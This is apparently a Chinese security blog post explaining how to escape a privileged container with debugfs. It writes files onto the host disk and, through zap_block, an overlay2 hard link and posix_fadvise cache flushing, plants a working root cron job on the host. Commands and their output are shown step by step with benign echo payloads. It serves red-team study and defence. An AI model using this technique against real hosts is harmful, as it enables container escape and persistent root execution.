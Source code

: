 ```yaml
---
layout: post
title: debugfs在容器逃逸中的作用
---
```

## 0x00 前言
[红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)中提到，在特权容器、`sys_admin`、`lxcfs`场景下，我们可以通过创建`cgroup devices subsystem`,修改`devices.allow`设置设备的访问权限，创建设备文件目录，并通过debugfs去访问宿主机的文件，达到逃逸的目的；由于`debugfs`不支持很多常用`linux`的命令，如`cp、echo`等，我们不能很方便的写文件到宿主机，虽然实战中我们可以通过cat命令去读取k8s的配置文件，但是如果需要写文件到宿主机，这时候该怎么办呢？
## 0x01 什么是debugfs
- debugfs - ext2/ext3/ext4 file system debugger

debugfs主要用来对ext2/ext3/ext4文件系统进行调试，可以用来恢复文件，更多使用[参考](https://man.archlinux.org/man/debugfs.8.en)  
## 0x02 debugfs中的write和zap_block
`debugfs`的`write`和`zap_block`命令可以写入文件，我们分别来介绍它们。  
write:
```html
write source_file out_file
    Copy the contents of source_file into a newly-created file in the filesystem named out_file.
```
通过`write`命令我们可以将容器中的文件复制到宿主机中。
演示： 
实验环境：特权ubuntu容器  
```shell
#在容器的bash中
root@4da29cbf878a:/tmp$ echo test > /tmp/testfile.txt
debugfs -w /dev/sda1 #读写模式打开/dev/sda1
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /tmp                 
debugfs:  write /tmp/testfile.txt testfile-host.txt #将容器中的/tmp/testfile.txt文件复制到宿主机的tmp目录中
Allocated inode: 787881
debugfs:  cat testfile-host.txt #读取复制的文件成功
test

#回到宿主机
ubuntu1@123:/tmp$ ls -l testfile-host.txt 
-rw-r--r-- 1 root root 5 Jun 17 10:44 testfile-host.txt
```
可以看到，这里是可以读取的，并且文件是正常没有损坏的；如果我们写入一个计划任务，可能就不行了
```bash
root@4da29cbf878a:/tmp$ echo '* * * * * echo test1 >> /tmp/testfile1.txt' > root   
root@4da29cbf878a:/tmp$ debugfs -w /dev/dm-0
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /var/spool/cron/crontabs
debugfs:  write /tmp/root root
Allocated inode: 135695
debugfs:  

#回到宿主机
ubuntu1@123:/tmp$ sudo ls -l /var/spool/cron/crontabs/
ls: cannot access '/var/spool/cron/crontabs/root': No such file or directory
total 0
-????????? ? ? ? ?            ? root
```
可以看到，此时的文件是有问题的，这样是不能执行计划任务的,通过查阅资料<https://www.intezer.com/blog/cloud-security/royal-flush-privilege-escalation-vulnerability-in-azure-functions/>  
文章中提到
```
Unfortunately, due to the same constraint we explained with the write cache, 
changes to /dev/sda5 would not propagate to the view of the /etc/passwd file 
until its cached pages are discarded. Meaning, we were only able to overwrite 
files that were not recently loaded from disk to memory, or otherwise wait 
for a system restart for our changes to apply. 
```
由于`crontabs`目录下的文件会不停的从磁盘中加载到内存，我们写的文件是有缓存的，只有等到重启才能够成功，然而实战情况不可能让你重启系统，所以如果使用write去复制文件到宿主机，不能够操作类似于计划任务这种不间断需要从磁盘加载到内存的文件。  
接着学习前面的文章：
```
This hard link still requires root permissions to edit, so we still had to use zap_block
to edit its content. We then used posix_fadvise to instruct the kernel to 
discard pages from the read cache (flush them, hence the name of the technique), 
inspired by a project named pagecache management (source: fadv.c slightly edited by us). 
This caused the kernel to load our changes and we were finally able to propagate them to the Docker host filesystem:
```
文中提到了通过`zap_block`去修改文件，再通过`ln`将修改成功的宿主机文件链接到容器中`upperdir`目录下，再通过 `posix_fadvise`从缓存中丢弃，这样就能够避免缓存的影响:
```shell
root@1fae4e0f04c8:/tmp$ debugfs -w /dev/dm-0
debugfs 1.45.5 (07-Jan-2020)
debugfs:  blocks /var/spool/cron/crontabs/root #获取文件的blocks
2694190
debugfs:  zap_block -o 15 -l 3 -p 0x41 2694190 #将ascii值为41的字符写入到第15个位置，向后替换3位
debugfs:  ln /var/spool/cron/crontabs/root /var/lib/docker/overlay2/fb877e934027ebf552cffe9e7cac5b84512c575c75f5008c3f58ccc277e7c62f/diff/tmp/
debugfs:  q
root@1fae4e0f04c8:/tmp$ ./fav root  #丢弃数据，避免缓存影响
```
这里我们通过`zap_block`修改了blocks为2694190的文件，也就是我们的/var/spool/cron/crontabs/root文件，从15位开始，向后3个长度，替换为ASCII值为41的字符A。修改完了之后再通过posix_fadvise，立即从`page cache`中丢弃数据，这样就不会有页面缓存的问题，编译的fav文件参考<https://github.com/tsarpaul/pagecache-management/blob/master/fadv.c>  
这时我们返回宿主机，查看root用户的计划任务:
```bash
ubuntu1@123:~$ sudo cat /var/spool/cron/crontabs/root
* * * * * echo AAAt >> /tmp/root1.txt
```
可以看到，已经成功写入并不受缓存影响。

## 0x03 参考
- https://security.tencent.com/index.php/blog/msg/183
- https://github.com/tsarpaul/pagecache-management/blob/master/fadv.c
- https://www.intezer.com/blog/cloud-security/royal-flush-privilege-escalation-vulnerability-in-azure-functions/
- https://man.archlinux.org/man/debugfs.8.en
